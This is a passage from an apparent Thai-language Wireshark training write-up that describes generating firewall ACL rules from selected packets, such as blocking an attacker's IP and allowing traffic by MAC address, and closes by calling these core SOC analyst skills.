- **Methodology:** ใช้ฟีเจอร์ `Tools --> Firewall ACL Rules` เพื่อสร้างกฎสำหรับนำไปใช้งานบนระบบ Firewall (เช่น iptables, ipfw, pf) โดยอัตโนมัติตามแพ็กเก็ตที่เลือก
- **Key Findings:** - **Blocking Malicious IP:** สามารถสร้างกฎ IPFirewall (ipfw) เพื่อบล็อก (Deny) ทราฟฟิกขาเข้าจาก IP ของผู้โจมตี (`10.121.70.151`) ได้อย่างรวดเร็ว
  - **Allowing Specific Hardware:** สามารถสร้างกฎเพื่ออนุญาต (Allow) ทราฟฟิกตามหมายเลข MAC Address ปลายทางเฉพาะเจาะจง เพื่อจำกัดวงการสื่อสารในเครือข่าย

**Conclusion:** การวิเคราะห์ทราฟฟิกด้วย Wireshark ไม่ได้จำกัดอยู่แค่การระบุความผิดปกติ แต่ยังครอบคลุมไปถึงการทำความเข้าใจพฤติกรรม (TTPs) ของผู้โจมตี การสกัดกั้นข้อมูล (Data Exfiltration) ไปจนถึงการออก Action เพื่อป้องกันระบบ (Firewall Rules) ซึ่งเป็น Core Skill ที่สำคัญอย่างยิ่งสำหรับการปฏิบัติงานใน Security Operations Center (SOC)

(assets/10.png)